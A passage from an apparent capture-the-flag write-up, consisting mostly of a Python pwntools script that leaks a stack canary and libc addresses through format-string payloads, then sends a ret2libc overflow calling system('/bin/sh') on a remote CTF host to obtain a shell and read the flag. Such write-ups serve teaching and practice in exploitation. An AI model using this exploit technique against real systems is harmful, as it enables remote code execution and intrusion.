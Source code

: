 ```py
    proc.sendlineafter(b":", payload)
    addr = proc.recvline(keepends=False)
    proc.sendlineafter(b":", b"")
    return int(addr, 16)

def leak_libc_addr(proc):
    """Returns the base address of libc as a 32-bit integer."""
    payload = b"%11$x"
    proc.sendlineafter(b">", b"e")
    proc.sendlineafter(b":", payload)
    addr = proc.recvline(keepends=False)
    proc.sendlineafter(b":", b"")
    return int(addr, 16)

program = ELF("./program")
libc = ELF("./libc.so.6")

r = remote("ctf-fsi.fe.up.pt", 4002)

canary = leak_canary(r)
info(f"Canary leaked!\n! {hex(canary)}")

main_addr = leak_main_addr(r)
program_base_addr = main_addr - program.symbols["main"]
info(f"Program base address leaked!\n! {hex(program_base_addr)}")
buffer_addr = program_base_addr + program.symbols["buffer"]

libc_addr = leak_libc_addr(r)
libc_base_addr = libc_addr - 0x00021519 # value obtained using GDB

info(f"Libc base address leaked!\n! {hex(libc_base_addr)}")
system_addr = libc_base_addr + libc.symbols["system"]

info(f"Ret addr: {hex(system_addr)}")
info(f"Ret arg addr: {hex(buffer_addr)}")

payload = b"A" * 20 + p32(canary) + b"\0" * 8 + p32(system_addr) + b"\0" * 4 + p32(buffer_addr)
info(f"Payload: {payload}")

r.sendlineafter(b">", b"e")
r.sendlineafter(b":", payload)
r.sendlineafter(b":", b"/bin/sh\0")
r.sendlineafter(b">", b"q")

r.interactive()
```

After having executing the script, an interactive shell on the machine will be available.
Then, just execute `cat flag.txt` to get the flag!
